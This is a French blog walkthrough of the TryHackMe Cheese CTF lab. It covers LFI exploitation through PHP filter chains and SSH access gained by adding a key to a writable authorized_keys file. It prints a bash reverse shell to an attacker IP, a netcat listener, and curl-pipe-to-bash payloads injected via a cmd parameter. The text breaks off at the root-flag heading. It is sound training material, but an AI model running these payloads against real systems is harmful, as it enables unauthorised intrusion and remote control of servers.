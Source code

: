 ```yaml
---
title: "TryHackMe Room Cheesectfv10"
seoTitle: "Cheesectfv10: Explore the TryHackMe Challenge"
seoDescription: "Learn how to gain shell access using reverse shells and PHP filter chains in the TryHackMe Cheese CTF Room"
datePublished: Tue May 06 2025 16:06:14 GMT+0000 (Coordinated Universal Time)
cuid: cmacpbxs0000109ikes4r0u3m
slug: tryhackme-room-cheesectfv10
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1746543221556/353365c1-1112-43c2-973d-890a1e22c750.png
tags: shell, cybersecurity-1, tryhackme, tryhackme-walkthrough, cheesectfv10

---
```


Lien de la room: [TryHackMe | Chese CTF](https://tryhackme.com/room/cheesectfv10)

# Énumération

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746549859868/eeba2534-e13f-4180-87dc-15d04525f83a.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746549887341/b953e0e6-86f7-4548-9f25-46e2840b248b.png align="center")

# Obtenir l’accès shell

## Avec le paramètre cmd

1. Créer un fichier `shell.sh` pour mon script de reverse shell. On veut donc initier la connexion depuis la machine cible.
    

Remplacer 10.10.102.158 par l’adresse IP de votre machine.

```bash
cat shell.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.102.158/4444 0>&1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746544143626/615e08b3-a3e5-4eaa-91cc-19bea55574bf.png align="center")

2. Démarrer le listener netcat sur la machine principale pour écouter les connexions entrantes sur le port 4444
    

```bash
nc -lvnp 4444
```

3. Démarrer un serveur HTTP qui va contenir le fichier `shell.sh`. Le fichier doit être dans le le répertoire courant où vous exécutez la commande.
    

```bash
python -m http.server 8000
```

4. Utiliser l’outil [php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator) pour générer la chaîne de filtres PHP
    

```bash
python3 attack.py --chain '<?php system($_GET["cmd"]); ?>'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746544061591/53a75b57-8673-40b2-855d-4f3f19525946.png align="center")

Ici on utilise `'<?php system($_GET["cmd"]); ?>'` car on veut exécuter des commandes sur le serveur cible via le paramètre `cmd` dans l’URL. On veut exploiter une vulnérabilité de type Local File Inclusion LFI afin d’exécuter des commandes arbitraires sur la cible.

5. Modifier l’URL vulnérable pour y ajouter `la chaîne de filtres PHP générée` et le paramètre `cmd`.
    

URL de base: <mark>http://10.10.162.24/secret-script.php?file=php://filter/resource=users.html</mark>

Début de la chaîne de filtre PHP : <mark>php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode</mark>

Fin de la chaîne de filtre PHP: <mark>UTF8.UTF7|convert.base64-decode/resource=php://temp</mark>

On rajoute donc le paramètre <mark>&amp;cmd=curl http://10.10.102.158:8000/shell.sh | bash</mark> à la fin de la chaîne de filtre PHP et on obtient ainsi le reverse shell.

* `curl http://10.10.102.158:8000/revshell.sh`: utilise l’outil curl pour télécharger le fichier shell.sh depuis le serveur HTTP sur le port 80
    
* `| bash`: redirige la sortie de la commande curl vers l’interpréteur de commandes bash, pour exécuter le script.
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746547286658/cabf2748-9b25-4180-8215-00b55abacc29.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746545277448/eb5f10ea-c90f-4b52-865c-e53d93920002.png align="center")

## Avec curl

On peut aussi spécifier directement la commande curl dans le payload lors de la génération de la chaîne de filtres PHP. C’est une alternative pour exécuter directement la commande curl sur le serveur, sans avoir à passer de paramètres supplémentaires à l’URL.

```bash
python3 attack.py --chain '<?= `curl 10.10.102.158:8000/shell.sh | bash` ?>'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746548656865/269b63b9-85e4-44f9-9f18-439422d48219.png align="center")

Ce payload utilise la syntaxe courte `<?= ?>` pour exécuter la commande `curl` qui télécharge et exécute le script `shell.sh` depuis le serveur HTTP.

Une fois la chaîne de filtres générée, on peut l’intégrer dans l’URL et obtenir l’accès sur la machine en reverse shell.

# Flag user.txt

On veut lire le contenu du fichier user.txt

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746637426433/df5bbc2e-1837-4ed3-84ee-beb3dba45cb0.png align="center")

Il faut donc trouver un moyen de pouvoir lire le contenu du fichier `user.txt`. Seul le propriétaire `comte` a le droit de lire et écrire dans le fichier. Vu qu’on est connecté à `www-data`, on a aucun droit.

On essaiera de vérifier si `www-data` n’a pas accès à d’autres fichiers ou répertoires.

```bash
find /home/comte -type f -readable -writable
```

Cette commande permet de lister les fichiers dans le répertoire `/home/comte` et les sous-répertoires, que l’utilisateur `www-data` peut lire (-readable) et écrire (-writable).

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746640001975/81188dc6-acc5-4a33-b148-cd4c365e96e2.png align="center")

On peut donc voir que le fichier `authorized_keys` dans le répertoire `/.ssh` peut être lisible et modifiable par `www-data`.

Ce fichier est composant du mécanisme d’authentification par clé publiques de SSH. Il contient une liste de clés publiques SSH appartenant aux utilisateurs autorisés à se connecter à un compte spécifique. Il fonctionne avec une clé privée, qui est sur la machine de l’utilisateur qui se connecte.

Voici un schéma qui illustre le fonctionnement de la connection SSH par clé publiques.

```mermaid
flowchart TB
    A[www-data trouve authorized_keys modifiable] --> B[Attaquant génère paire de clés SSH]
    B --> C[Clé privée key_rsa conservée en local]
    B --> D[Clé publique key_rsa.pub exportée]
    D --> E[Injection de la clé publique dans /home/comte/.ssh/authorized_keys]
    E --> F[SSH-server lit authorized_keys]
    F --> G[Client SSH propose la clé privée]
    G --> H{Correspondance clé privée ↔ clé publique ?}
    H -- Oui --> I[Connexion réussie en tant que comte]
    I --> J[Lecture de user.txt, obtention du flag]
    H -- Non --> K[Échec d’authentification]

```

À noter que dans le cas d’une authentification par clé SSH, on a pas besoin du mot de passe de l’utilisateur car SSH utilise la correspondance entre la clé privée et la clé publique placée dans le fichier `authorized_keys` de `comte`.

Sur la machine principale, on génère une paire de clé avec la commande `ssh-keygen -t rsa`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746641847543/328ec365-afe3-45b9-9efd-8ee996d561b7.png align="center")

On obtient une clé privée (key\_rsa) et la clé publique associée (key\_rsa.pub).

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746643650075/beb7c51c-a5b8-4a65-ba70-dbcf34bbc76f.png align="center")

Il faut ensuite copier le contenu de la clé publique dans le fichier `authorised_keys` de la machine cible afin dese connecter au compte `comte` depuis la machine principale via SSH.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746642068184/5ad91320-1162-41c2-a33a-731dffbb60a5.png align="center")

Sur la machine principale sur laquelle la paire de clés a été générée, lancer la connexion ssh en utilisant la clé privée.

```bash
ssh -i key_rsa comte@10.10.46.126
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746642211249/e31cf5fa-7c8a-4ce6-b327-087961a17ed0.png align="center")

On a arrive donc à se connecter au compte `comte` et on obtient le flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746642243905/677b07a0-477f-4c2a-9aa1-c37b1556f7d7.png align="center")

# Flag root.txt